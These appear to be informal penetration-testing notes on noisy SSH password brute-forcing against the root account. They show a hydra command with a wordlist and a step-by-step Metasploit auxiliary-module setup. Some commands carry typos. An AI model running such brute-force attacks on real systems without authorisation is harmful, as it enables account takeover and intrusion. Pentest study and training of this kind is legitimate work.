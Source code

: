 being loud sometimes : so during the pentest u say kudos to blue team in this scan but u did not see us in this part .

`hydra -l root -P /usr/share/wordlists/pswd.txt ssh://ipofachine andport -t 4 - V`

another way with metasploit :
`msfconsole`
`search ssh`
![[Pasted image 20231117121030.png]]
`use auxialry/..`
`options`
`set username root`
`set pass_file  /usr/share/wordlists/pswd.txt `
`set rhosts ip`
`set threads 10`
`set verbose true`
`run`
